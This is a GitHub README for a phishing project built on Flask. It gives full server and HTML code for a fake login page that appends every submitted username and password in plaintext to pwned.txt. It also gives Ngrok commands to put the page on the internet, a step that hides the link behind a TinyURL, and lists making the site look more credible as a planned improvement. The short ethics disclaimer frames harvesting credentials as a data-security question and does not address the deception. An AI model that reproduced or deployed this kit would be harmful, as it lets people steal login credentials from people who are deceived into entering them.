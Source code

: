 # Project: Phishing website using Flask and Ngrok

## Overview
This repository contains a Flask-based website that implements a simple login functionality. The website allows users to submit login credentials through a web interface and processes the data on the backend. The website is deployed online using Ngrok. This project serves as an example on how to gather user information through a malicious web page login form that saves user data into a local text file.

## Features
- **Frontend:** A simple HTML interface for user login.
- **Backend:** Flask website handling routing and processing login credentials.
- **Logging:** Captures and stores submitted login credentials in a local file (`pwned.txt`).
- **Deployment:** Uses Ngrok to expose the Flask website to the internet.

---

## Project Structure
```
project-directory/
├── static/          # CSS, JavaScript, and other static files
├── templates/       # HTML files (index.html, login.html)
├── server.py        # Main Flask website
├── pwned.txt        # File for logging submitted credentials
└── README.md        # Documentation
```

### File Details
- **`index.html`**: The main landing page for the website.
- **`login.html`**: Contains the login form where users can enter their credentials.
- **`server.py`**: Python script for:
  - Rendering the HTML pages.
  - Handling login form submissions.
  - Writing submitted credentials to `pwned.txt`.
- **`pwned.txt`**: Stores the username and password entries submitted by users.

---

## Setup and Installation

### Prerequisites
- Python (3.12 or above)
- Ngrok (to expose the Flask app online)

### Steps
1. Clone the repository:
   ```bash
   git clone https://github.com/elvishaveriku/Phishing_Website_Project.git
   cd phishing_website_project
   ```

2. Install the required Python packages:
   ```bash
   pip install flask
   ```

3. Run the Flask website:
   ```bash
   python server.py
   ```

4. Start Ngrok to expose the website:
   ```bash
   ngrok http --url=badly-climbing-loon.ngrok-free.app 5000
   ```
   Copy the public URL generated by Ngrok.

6. Access the website in your browser using the Ngrok URL.

Default URL is: badly-climbing-loon.ngrok-free.app .

We can use Tinyurl to mask the default URL. New URL is: https://tinyurl.com/3dyd3n96

![image](https://github.com/user-attachments/assets/27fe6355-89fa-4787-b2f7-91b7799017e2)

   
7. Entering credentials in the login page.

![image](https://github.com/user-attachments/assets/b7f2113c-ec58-409b-90c5-f09c2c403ac4)


8. After clicking Login" check the newly created "pwned.txt" file in your local machine.

![image](https://github.com/user-attachments/assets/2eae7fa1-34b4-49c4-995d-f79f58ea2775)


---

## Code Highlights

### Flask Routes
- **Index Route (`/`)**:
  Serves the `index.html` page.
  ```python
  @app.route('/')
  def index():
      return render_template('index.html')
  ```

- **Login Page (`/login.html`)**:
  Serves the `login.html` page.
  ```python
  @app.route('/login.html')
  def login():
      return render_template('login.html')
  ```

- **Login Submission (`/login`)**:
  Handles the login form submission and logs credentials.
  ```python
  @app.route('/login', methods=['POST'])
  def handle_login():
      username = request.form.get('username')
      password = request.form.get('password')

      with open('pwned.txt', 'a') as file:
          file.write(f"Username: {username}, Password: {password}\n")

      if username == 'admin' and password == 'password123':
          return jsonify({'message': 'Login successful!'}), 200
      else:
          return jsonify({'message': 'Invalid credentials.'}), 400
  ```
  
---

## Frontend Implementation

### HTML Structure
The frontend consists of two HTML pages: `index.html` and `login.html`. Both are located in the `templates/` directory.

#### `index.html`
A simple landing page with navigation links.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home Page</title>
</head>
<body>
    <header>
        <h1>Welcome to the Web App</h1>
    </header>
    <nav>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/login.html">Login</a></li>
        </ul>
    </nav>
</body>
</html>
```

#### `login.html`
A form for users to submit login credentials.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>
<body>
    <header>
        <h1>Login</h1>
    </header>
    <main>
        <form id="loginForm" action="/login" method="POST">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <button type="submit">Login</button>
        </form>
    </main>
</body>
</html>
```

---

## Ethical Considerations
Logging sensitive user information is for demonstration purposes only. Do not deploy such functionality in production without proper security measures, including encryption and user consent.

---

## Future Improvements
- Increasing the credibility of the website

---

## Author
[Elvis Haveriku] - Cybersecurity enthusiast and passionate about web technologies and Python programming.

